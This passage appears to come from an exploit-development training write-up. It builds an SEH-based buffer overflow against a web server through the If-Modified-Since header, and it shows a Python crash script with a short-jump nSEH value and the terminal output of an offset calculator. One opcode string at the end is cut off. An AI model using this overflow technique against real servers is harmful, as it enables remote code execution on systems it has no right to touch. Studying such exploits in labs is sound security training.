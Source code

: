 This time, we use the `-j, --jump` flag to tell `offset.py` that we want to get opcodes for a short jump. We then tell it the offset in decimal that we want to achieve. 
```terminal_session
root@kali:~/OSCE/ # offset -j                                           
Enter offset in decimal: 50
[-] Negative jump opcodes: \xeb\xcc
[+] Positive jump opcodes: \xeb\x32
```

Excellent, `offset.py` gives us our negative jump codes and we can put this value into `nseh`. Let's update our exploit script. Note that we added NOPs to `nseh` just to pad out the rest of the 4 byte value. 
```python
import socket
import sys

host = "192.168.1.201"
port = 80

seh = "\x84\xf5\x44"
nseh = "\xeb\xcc\x90\x90"

#PO @ 304
crash = "A" * 304
crash += nseh
crash += seh


req = "GET / HTTP/1.1\r\n"
req += "Host: 192.168.1.201\r\n"
req += "User-Agent: Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0\r\n"
req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
req += "Accept-Language: en-US,en;q=0.5\r\n"
req += "Accept-Encoding: gzip, deflate\r\n"
req += "Connection: close\r\n"
req += "Upgrade-Insecure-Requests: 1\r\n"
req += "If-Modified-Since: Wed, " + crash + "\r\n\r\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.send(req)
s.close()
```

![](/assets/images/CTP/xitamiLand.JPG)

We land at `0006FF46`, let's make sure our negative jump was correct. 
```terminal_session
root@kali:~/OSCE/ # offset                                             
Enter Address #1: 6ff78
Enter Address #2: 6ff46
[+] Hex offset: 0x32
[+] Decimal offset: 50
[-] Negative jump opcodes: \xeb\xcc
[+] Positive jump opcodes: \xeb\x32
[-] ESP Sub Adjust Opcodes: \x54\x58\x2c\x32\x50\x5c
[+] ESP Add Adjust Opcodes: \x54\x58\x04\x32\x50\x5
```
